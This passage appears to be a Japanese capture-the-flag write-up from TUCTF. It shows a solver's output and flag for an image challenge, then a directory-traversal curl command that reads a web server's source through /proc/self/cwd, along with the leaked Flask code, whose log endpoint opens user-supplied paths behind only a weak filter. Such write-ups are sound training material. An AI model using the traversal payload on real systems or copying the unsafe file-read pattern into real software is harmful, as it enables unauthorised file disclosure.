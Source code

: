 ```bash
$ python solver.py 
Zero: {'chars': 'TUC', 'alpha': 231, 'rgb': [4, 9, 105]}
Slimer: {'chars': 'F{T', 'alpha': 219, 'rgb': [99, 227, 52]}
MoaningMyrtle: {'chars': 'GOH', 'alpha': 210, 'rgb': [35, 112, 88]}
Inky: {'chars': 'S_T', 'alpha': 203, 'rgb': [23, 207, 194]}
Blinky: {'chars': '_NI', 'alpha': 197, 'rgb': [212, 29, 8]}
Casper: {'chars': 'ETH', 'alpha': 189, 'rgb': [61, 45, 52]}
Clyde: {'chars': 'AM_', 'alpha': 183, 'rgb': [201, 106, 22]}
BloodyMary: {'chars': 'ICH', 'alpha': 179, 'rgb': [77, 6, 17]}
Gengar: {'chars': 'EN_', 'alpha': 174, 'rgb': [63, 6, 79]}
Yoda: {'chars': '210', 'alpha': 164, 'rgb': [27, 74, 10]}
DannyPhantom: {'chars': '019', 'alpha': 158, 'rgb': [16, 96, 224]}
Pinky: {'chars': '18}', 'alpha': 152, 'rgb': [238, 15, 242]}
TUCTF{GHOST_IN_THE_MACHINE_02101981}
```

### Silly Cloud

最後の最後で解けなかった問題。

Webサイトのリンクが与えられる。ソースコード等の情報は無し。  
ディレクトリトラバーサルの脆弱性があるため、サーバ内部のファイルにアクセスができる。

- サーバソースコード
  - `curl --path-as-is https://silly-cloud.tuctf.com/logs?service=./../../../../proc/self/cwd/app.py`

```py
from flask import Flask, request, render_template
from os import getenv
import subprocess
import logger

app = Flask(__name__)
# app.debug = True
app.static_folder = 'static'
app.template_folder = 'templates'
app.static_url_path = '/static'
app.secret_key = getenv('SECRET_KEY', 'this_is_not_the_flag_you_are_looking_for')
...<SNIP>...
@app.route('/')
def index():
    return render_template('dashboard.html')

@app.route('/api/secrets')
def get_flag():
    return subprocess.check_output(['cat', 'flag.txt'])

@app.route("/services")
def services():
    return render_template("services.html", title="Services")

@app.route("/services/<service>")
def serverless(service):
    return render_template(f"{service}.html", title=f"CloudControl {service.title()}")
...<SNIP>...
@app.route('/logs', methods=['GET'])
def get_logs():
    file_name = request.args.get('service')
    if not file_name:
        return "No service specified", 404
    try:
        if "/dev" in file_name:
            return "Stop trolling", 403
        with open(f'logs/{file_name}', 'r') as file:
            content = file.read()
```